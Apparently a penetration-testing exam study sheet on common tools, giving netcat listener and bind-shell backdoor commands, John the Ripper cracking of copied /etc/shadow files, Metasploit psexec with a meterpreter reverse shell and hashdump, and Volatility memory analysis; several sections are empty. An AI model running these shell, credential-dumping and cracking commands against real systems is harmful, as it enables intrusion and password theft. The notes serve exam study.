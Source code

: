 # Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create Backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

### SSH

### Ettercap

### p0f

### Joghn the Ripper

John the Ripper is essentially a password cracking tool.  You can utilize John the Ripper to perform password cracking once you've retrieved password hashes from a target.

First, you need to combine the passwd and shadow files (from a Linux machine).  The following examples assumes you've taken a copy of /etc/passwd and /etc/shadow and moved them to the /tmp directory:

```
./unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Running John is trival:

```
./john /tmp/combined
```

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing Exploits:

```
show exploits
```

Searching Exploits:

```
search type:exploit psexec
```

Acquiring Info on an Exploit:

```
info exploit/windows/smb/psexec
```

Selecting an Exploit to Use:

```
use exploit/windows/smb/psexec
```

Configuring Exploit Settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing Options:

```
show options
```

Configuring Variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching Exploit:

```
exploit
```

Backgrounding a Session:

```
background
```

Listing Sessions:

```
sessions -l
```

```
sessions -i [session #]
```

Popular Meterpreter Commands:

```
?
sysinfo
getuid
pwd
getpid
ps
hashdump
run hashdump
```

### Volatility

Getting usage and help

```
python vol.py -h
```

Getting process list:

```
python vol.py pslist -f /path/to/memory/dump/mem.dd --profile=Win7SP0x86
```

### etc...

